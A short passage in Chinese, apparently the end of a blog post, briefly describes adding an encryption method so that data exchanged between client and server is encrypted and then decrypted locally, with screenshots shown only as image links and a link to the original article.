首先创建一个加密方法：  
  
这样在数据包中客户端就会调用这个加密方法加密服务端返回的数据，我们可以把请求包解密看到详情：  
  
现在服务端返回给我们的数据包就是加密的，然后本地再解密即可：



### [](#写在最后 "写在最后")写在最后

原文链接：<https://mp.weixin.qq.com/s/EfzSC979qQqXxXLZsV9LpA>
